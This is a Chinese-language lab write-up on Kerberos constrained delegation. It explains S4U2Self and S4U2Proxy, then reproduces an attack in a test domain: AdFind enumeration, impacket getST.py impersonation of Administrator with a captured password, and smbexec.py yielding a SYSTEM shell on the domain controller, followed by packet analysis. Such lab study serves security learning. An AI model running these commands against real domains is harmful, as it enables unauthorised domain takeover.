









# 约束性委派

约束性委派限制了服务账户只能代表用户获得特定服务的ST。

约束性委派的设置需要有`SeEnableDelegationPrivilege(信任计算机和用户帐户可以执行委派)`权限，本地管理员组、域管理员和企业管理员默认有该权限。可以通过以下方式查看

```bash
win+r 打开 gpedit.msc(本地组策略编辑器)
计算机设置 -> windows设置 -> 安全设置 -> 本地策略 -> 用户权限分配 -> 信任计算机和用户帐户可以执行委派
#默认情况下该值为administrators

#在域内查看本地管理员组
C:\Users\administrator>net localgroup administrators
别名     administrators
注释     管理员对计算机/域有不受限制的完全访问权

成员

----------------------------------------------------
administrator
Domain Admins
Enterprise Admins
```

配置了约束性委派的账户的`msDS-AllowedToDelegateTo`属性会指定对哪个`SPN`进行委派。可以通过[ADExplorer](https://learn.microsoft.com/en-us/sysinternals/downloads/adexplorer)查看



# S4u拓展

为了在kerberos协议层对约束性委派进行支持，微软对kerberos引入了两个拓展

## S4u2Proxy

[S4u2Proxy](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/bde93b0e-f3c9-4ddf-9f44-e1453be7af5a)，即服务代表用户申请另一个服务的ST，只要服务账户拥有有效的TGS发布的ST票据就能够通过`S4u2Proxy`代表用户申请访问其他服务的ST

## S4u2Self
[S4u2Self](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-sfu/02636893-7a1f-4357-af9a-b672e3e3de13)，即服务代表用户申请自身服务的ST。由于用户可能通过`NTLM`等方式进行认证，而不是以kerberos进行认证，这个时候，用户将无法获得TGS颁发的ST，也就无法通过`S4u2Proxy`代表用户申请其他服务的票据。所以微软提出了`S4u2Self`，让服务再通过kerberos协议代表用户申请一个访问自身的票据，这样就能解决没有TGS颁发的ST的问题，从而完成了协议转换

# 约束性委派分类

## 仅使用kerberos认证

这个涉及`Kerberos Bronze Bit`漏洞

## 使用任何身份验证协议

### 实验环境

- 域控: WIN-HSTT0ETJU78 ( 10.0.0.133 )
- 域成员: WIN7 ( 10.0.0.138 )
- 域管理员: Administrator
- 服务账户: hack
- 域: xie.com

### 配置约束性委派

先准备服务账户hack，为域用户hack注册一个服务

```
C:\Users\administrator>setspn -S MySQL/WIN-HSTT0ETJU78.xie.com:3306 hack
正在检查域 DC=xie,DC=com

为 CN=hack,CN=Users,DC=xie,DC=com 注册 ServicePrincipalNames
        MySQL/WIN-HSTT0ETJU78.xie.com:3306
更新的对象
```

为hack配置约束性委派



### 攻击复现

假设我们获取了WIN7主机的权限，该主机当前登入的用户为`xie\hack`，抓取其密码为`Abcd@1234`，并且通过ADFind发现hack具有约束性委派属性

```bat
C:\Users\hack\Desktop>AdFind.exe -b "DC=xie,DC=com" -f "(&(msds-allowedtodelegat
eto=*)(samAccountType=805306368))" -dn

AdFind V01.62.00cpp Joe Richards (support@joeware.net) October 2023

Using server: WIN-HSTT0ETJU78.xie.com:389
Directory: Windows Server 2012 R2

dn:CN=hack,CN=Users,DC=xie,DC=com

1 Objects returned
```

```bat
C:\Users\hack\Desktop>AdFind.exe -b "DC=xie,DC=com" -f "(&(msds-allowedtodelegat
eto=*)(samAccountType=805306368))" msDS-AllowedToDelegateTo

AdFind V01.62.00cpp Joe Richards (support@joeware.net) October 2023

Using server: WIN-HSTT0ETJU78.xie.com:389
Directory: Windows Server 2012 R2

dn:CN=hack,CN=Users,DC=xie,DC=com
>msDS-AllowedToDelegateTo: cifs/WIN-HSTT0ETJU78.xie.com/xie.com
>msDS-AllowedToDelegateTo: cifs/WIN-HSTT0ETJU78.xie.com
>msDS-AllowedToDelegateTo: cifs/WIN-HSTT0ETJU78
>msDS-AllowedToDelegateTo: cifs/WIN-HSTT0ETJU78.xie.com/XIE
>msDS-AllowedToDelegateTo: cifs/WIN-HSTT0ETJU78/XIE

1 Objects returned

```

需要在攻击机做hosts绑定

```bash
# echo "10.0.0.133 WIN-HSTT0ETJU78.xie.com" | sudo tee -a /etc/hosts
```

接下来使用[impacket](https://github.com/fortra/impacket.git)进行约束性委派攻击。以administrator身份申请一张访问cifs/WIN-HSTT0ETJU78.xie.com的服务票据

```
python getST.py -dc-ip 10.0.0.133 xie.com/hack:Abcd@1234 -spn cifs/WIN-HSTT0ETJU78.xie.com -impersonate Administrator
```

导入票据
```bash
# export KRB5CCNAME=Administrator.ccache
```

远程访问控制
```bash
# python3 smbexec.py -no-pass -k WIN-HSTT0ETJU78.xie.com
Impacket v0.11.0 - Copyright 2023 Fortra


[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>
C:\Windows\system32>whoami
nt authority\system
```

### 攻击流量分析

全程主要涉及这6个流量包


第一个`AS-REQ`是hack(服务账户)身份向KDC申请可以转发的TGT




第二个`AS-REP`是KDC向hack返回可以转发的TGT

第三个`TGS-REQ`是`hack`拿上一步获得的TGT，代表`administrator`用户向`hack(服务账户)`申请ST，即



第四个`TGS-REP`是KDC返回用户administrator访问自身服务(hack用户所在服务)的可转发的ST，即S4u2Self



第五个`TGS-REQ`是hack附上上一步返回的ST向KDC代表用户administrator访问WIN-HSTT0ETJU78的cifs服务的ST，即S4u2Proxy



第六个`TGS-REP`是KDC返回以administrator身份访问WIN-HSTT0ETJU78的cifs服务的ST



# 参考
- <https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-10/security/threat-protection/security-policy-settings/enable-computer-and-user-accounts-to-be-trusted-for-delegation#reference>
- <https://www.notsoshant.io/blog/attacking-kerberos-constrained-delegation/>